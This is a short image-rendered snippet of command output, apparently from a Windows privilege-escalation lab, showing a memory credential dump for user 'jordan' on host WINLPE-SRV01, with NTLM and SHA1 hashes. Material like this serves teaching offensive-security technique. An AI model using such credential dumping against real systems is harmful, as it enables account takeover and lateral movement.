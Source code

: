 ```cmd-session
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>

```

